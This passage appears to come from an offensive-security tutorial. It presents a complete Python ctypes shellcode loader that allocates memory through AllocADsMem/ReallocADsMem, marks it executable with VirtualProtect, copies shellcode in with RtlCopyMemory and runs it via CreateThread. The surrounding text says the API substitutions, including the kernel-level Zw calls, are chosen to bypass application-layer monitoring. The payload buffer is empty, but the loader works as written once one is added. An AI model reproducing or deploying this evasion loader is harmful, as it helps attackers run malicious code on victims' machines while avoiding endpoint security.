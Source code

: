 ​ Based on the above using `AllocADsMem`+`ReallocADsMem` to replace `VirtualAlloc`, use `RtlCopyMemory` to replace `RtlMoveMemory`. Here, `ZwAllocateVirtualMemory` can also be used instead. The kernel-level `Zw` series API` is used to bypass the monitoring of the application layer. In the future, this method will be used to construct the `shellcode` constructor.

```python
# -*-coding:utf-8 -*-
"""
The ctypes library is a module in Python that calls the system dynamic link library functions. The ctypes library can use the C language dynamic link library and pass functions to it.
AllocADsMem+ReallocADsMem+VirtualProtect+RtlCopyMemory
"""
import ctypes

shellcode = bytearray(b'')
ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc = ctypes.windll.Activeds.AllocADsMem(
    ctypes.c_int(len(shellcode))
)

ptr_realloc = ctypes.windll.Activeds.ReallocADsMem(
    ptr_alloc,
    len(shellcode),
    len(shellcode)
)

ctypes.windll.kernel32.VirtualProtect(
    ptr_realloc,
    ctypes.c_int(len(shellcode)),
    0x40,
    ctypes.byref(ctypes.c_long(1))
)

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlCopyMemory(
    ctypes.c_uint64(ptr_realloc),
    buffer,
    ctypes.c_int(len(shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.c_void_p(ptr_realloc),
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```
